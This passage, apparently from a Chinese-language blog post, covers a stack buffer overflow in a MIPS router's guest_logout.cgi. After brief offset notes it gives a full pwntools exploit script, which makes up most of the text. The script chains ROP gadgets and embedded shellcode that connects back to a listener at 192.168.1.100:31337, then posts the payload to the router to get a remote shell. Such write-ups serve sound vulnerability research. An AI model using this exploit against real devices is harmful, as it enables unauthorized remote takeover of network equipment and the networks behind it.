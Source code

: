 ![image-20221027203711581](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20221027203711581.png)

由于我们在85个溢出值处控制了$ra，0x55(85)-(0xC0+0X24)+(0xc0+0) = 0x31（49），在49个溢出值处放置jmp_a0，即可控制。$s0为对应值，同时在之前溢出测试中可以看到$s0被溢出成了'aaan'，也能用cyclic来直接计算到$s0的偏移。

这里shellcode用的这个部分改的[http://shell-storm.org/shellcode/files/shellcode-860.html](http://shell-storm.org/shellcode/files/shellcode-860.html)

```python
from pwn import *
import thread,requests

context.log_level='debug'
context(arch='mips',endian='little',os='linux')
io     = listen(31337)
libc   = 0x2af98000
jmp_a0 = libc + 0x0003D050  # move  $t9,$a0             ; jalr  $a0
jmp_s0 = libc + 0x000257A0  # addiu $a0,$sp,0x38+var_20 ; jalr  $s0 

shellcode = "\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += "\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += "\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += "\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += "\xf8\xff\xa5\xaf\x01\x64\x05\x3c\xc0\xa8\xa5\x34\xfc\xff\xa5\xaf"
shellcode += "\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += "\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += "\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += "\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += "\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += "\xab\x0f\x02\x24\x0c\x09\x09\x01"

payload = "status_guestnet.asp"+'a'*49+p32(jmp_a0)+0x20*'a'+p32(jmp_s0)+0x18*'a'+shellcode
paramsPost = {"cmac":"12:af:aa:bb:cc:dd","submit_button":payload,"cip":"192.168.1.100"}

def attack():
    try: requests.post("https://192.168.1.1/guest_logout.cgi", data=paramsPost, verify=False,timeout=1)
    except: pass

thread.start_new_thread(attack,())
io.wait_for_connection()
log.success("getshell")
io.interactive()
```



![image-20221027214844874](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20221027214844874.png)

## 小结

因为学业的原因，暂时研究时间比较少，有时间了慢慢研究这一块的内容，慢慢更新